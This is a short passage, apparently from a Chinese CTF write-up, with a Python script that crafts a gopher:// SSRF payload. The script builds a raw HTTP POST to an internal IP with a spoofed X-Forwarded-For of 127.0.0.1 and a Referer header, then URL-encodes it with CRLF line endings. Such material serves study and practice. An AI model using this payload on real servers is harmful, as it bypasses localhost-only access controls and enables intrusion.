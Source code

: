
![img](/upload/img/clip_image030.gif)

加上referer头

![img](/upload/img/clip_image032.gif)

最后整个脚本是

```python
import urllib
import urllib.parse
import requests

POST =\
"""POST /index.php?a=1 HTTP/1.1
Host: 172.73.23.100
Content-Type:application/x-www-form-urlencoded
X-Forwarded-For: 127.0.0.1
Referer: bolean.club
Content-Length:1

b=1
"""


tmp = urllib.parse.quote(POST)
new = tmp.replace('%0A','%0D%0A')
result = '_'+new
result=urllib.parse.quote(result)
print('gopher%3A//172.73.23.100%3A80/'+result)
```
